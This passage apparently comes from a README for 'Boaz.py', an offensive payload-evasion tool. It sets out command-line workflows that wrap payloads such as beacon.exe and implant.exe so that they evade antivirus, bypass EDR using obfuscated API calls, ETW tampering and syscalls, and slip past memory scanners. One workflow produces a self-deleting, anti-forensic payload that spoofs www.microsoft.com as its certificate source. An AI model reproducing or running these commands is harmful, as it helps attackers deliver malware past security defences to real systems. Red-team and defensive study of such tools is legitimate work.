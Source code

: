 ### Workflow 2: Evading Basic AV

```bash
# Basic evasion with UUID encoding
python3 Boaz.py \
  -f payload.exe \
  -o evasive.exe \
  -t donut \
  -l 16 \
  -e uuid \
  -obf \
  -entropy 2
```

### Workflow 3: Bypassing EDR

```bash
# Advanced evasion with syscalls and obfuscation
python3 Boaz.py \
  -f beacon.exe \
  -o edr_bypass.exe \
  -t donut \
  -l 37 \
  -e aes \
  -c akira \
  -obf \
  -obf_api \
  -u \
  -etw \
  -cfg \
  -a \
  -dream 2000
```

### Workflow 4: Memory Scanner Evasion

```bash
# Memory guard with encryption
python3 Boaz.py \
  -f implant.exe \
  -o mem_safe.exe \
  -t donut \
  -l 51 \
  -e rc4 \
  -c pluto \
  -obf \
  -dream 3000
```

### Workflow 5: Forensic-Resistant Payload

```bash
# Self-deleting with anti-forensics
python3 Boaz.py \
  -f payload.exe \
  -o forensic_safe.exe \
  -t donut \
  -l 37 \
  -e chacha \
  -c akira \
  -d \
  -af \
  -entropy 2 \
  -s www.microsoft.com
```
